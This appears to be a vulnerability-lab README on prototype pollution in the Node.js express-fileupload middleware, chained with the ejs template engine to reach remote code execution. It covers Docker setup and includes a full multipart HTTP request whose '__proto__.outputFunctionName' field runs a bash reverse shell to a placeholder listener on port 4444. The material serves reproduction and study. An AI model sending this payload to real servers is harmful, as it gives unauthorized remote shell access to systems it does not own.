 # NodeJS expresss-fileupload protype pollution vulnerability（CVE-2022-7699）

## Vulnerability principle

`express-fileupload` is a express middleware for uploading files. In the version prior `1.1.7-alpha.4`, it has a protype pollution vulnerability. And if also the website use `ejs(<=3.1.6)` which is a template engine, the `outputFunctionName` parameter can be polluted by constructing a call chain, thereby causing remote code execution.

References：

- https://blog.p6.is/Real-World-JS-1/
- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

## Vulnerability Environment

Execute the following commands to start:

```bash
docker-compose build
docker-compose up -d
```

## Vulnerability Reproduce

After the server is started, you can visit the page at `http://your-ip:3000/`

![img](1.png)

Set a listener firstly, then send the following package which can reverse shell.

```text
POST /upload HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 306
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypDa6OHB96f0GI9ze

------WebKitFormBoundarypDa6OHB96f0GI9ze
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/your-ip/4444 0>&1"');delete Object.prototype['outputFunctionName'];x
------WebKitFormBoundarypDa6OHB96f0GI9ze--
```

PS：Afer send the package, the prototype of the whole program will be polluted. It maybe affect the normal access to the website unless reboot. So we need to remove polluted protype.
